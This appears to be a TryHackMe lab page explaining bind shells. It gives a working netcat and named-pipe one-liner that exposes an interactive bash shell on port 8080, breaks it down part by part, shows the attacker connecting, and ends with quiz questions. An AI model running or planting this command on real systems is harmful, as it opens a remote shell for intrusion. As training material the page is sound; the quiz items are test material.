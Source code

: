    

Bind Shell

### Bind Shell

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

#### How bind shells work

**Setting Up the Bind Shell on the Target**

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
- **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
- `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.

**Terminal on the Target Machine (Bind Shell Setup)**

Terminal

target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

```
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Once the command is executed, it will wait for an incoming connection, as shown above.

**Attacker Connects to the Bind Shell**

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.
- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.
- `TARGET_IP` - The IP address of the target machine where the bind shell is running.
- `8080` - The port number on which the bind shell listens.

**Attacker Terminal (After Connection)**

Terminal

attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$

```
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

After connecting, we can get a shell, as shown above, and execute commands.

Answer the questions below

What type of shell opens a specific port on the target for incoming connections from the attacker?

Correct Answer

Listening below which port number requires root access or privileged permissions?

Correct Answer